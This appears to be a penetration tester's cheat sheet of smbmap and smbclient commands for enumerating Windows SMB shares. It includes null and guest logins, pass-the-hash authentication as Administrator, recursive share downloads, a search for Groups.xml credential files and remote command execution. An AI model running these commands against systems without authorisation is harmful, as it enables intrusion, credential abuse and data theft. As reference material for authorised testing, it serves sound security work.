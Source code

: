 ```
smbmap -H $ip
```

```
smbmap -d <workgroup> -H $ip
smbmap -u "" -p "" -d <workgroup> -H $ip
smbmap -u guest -p "" -d <workgroup> -H $ip
smbmap -u <user> -p <password> -d <workgroup> -H $ip
smbmap -u <user> -p <password> -d <workgroup> -H $ip -L  #test command execution
smbmap -u <user> -p <password> -d <workgroup> -H $ip -r  #read drive

smbmap -u '' -p '' -H 192.168.1.23 # similar to crackmapexec --shares
smbmap -u guest -p '' -H 192.168.1.23
smbmap -u Administrator -p aad3b435b51404eeaad3b435b51404ee:e101cbd92f05790d1a202bf91274f2e7 -H 192.168.1.23
smbmap -u Administrator -p aad3b435b51404eeaad3b435b51404ee:e101cbd92f05790d1a202bf91274f2e7 -H 192.168.1.23 -r # list top level dir
smbmap -u Administrator -p aad3b435b51404eeaad3b435b51404ee:e101cbd92f05790d1a202bf91274f2e7 -H 192.168.1.23 -R # list everything recursively
smbmap -u Administrator -p aad3b435b51404eeaad3b435b51404ee:e101cbd92f05790d1a202bf91274f2e7 -H 192.168.1.23 -s wwwroot -R -A '.*' # download everything recursively in the wwwroot share to /usr/share/smbmap. great when smbclient doesnt work
smbmap -u Administrator -p aad3b435b51404eeaad3b435b51404ee:e101cbd92f05790d1a202bf91274f2e7 -H 192.168.1.23 -x whoami # no work
```

Recursively list dirs, and files:
```
smbmap -R $sharename -H $ip
```

Search for `Groups.xml` in given share:
```
smbmap -R $shareName -H $ip -A Groups.xml -q
```

Downloads a file in quiet mode:
```
smbmap -R $sharename -H $ip -A $fileyouwanttodownload -q
```

Using hash:
```
mbmap.py -u user123 -p 'aad3b435b51404eeaad3b435b51404ee:0B186E661BBDBDFFFFFFFFFFF8B9FD8B' -H (TARGET IP ADDRESS)
```

### smbclient

```
smbclient //192.168.1.23/wwwroot
smbclient //192.168.1.23/C$ WIN20082017 -U Administrator
smbclient //192.168.1.23/C$ A433F6C2B0D8BB92D7288ECFFACFC7CD -U Administrator --pw-nt-hash # make sure to only use the NT portion of the hash
```
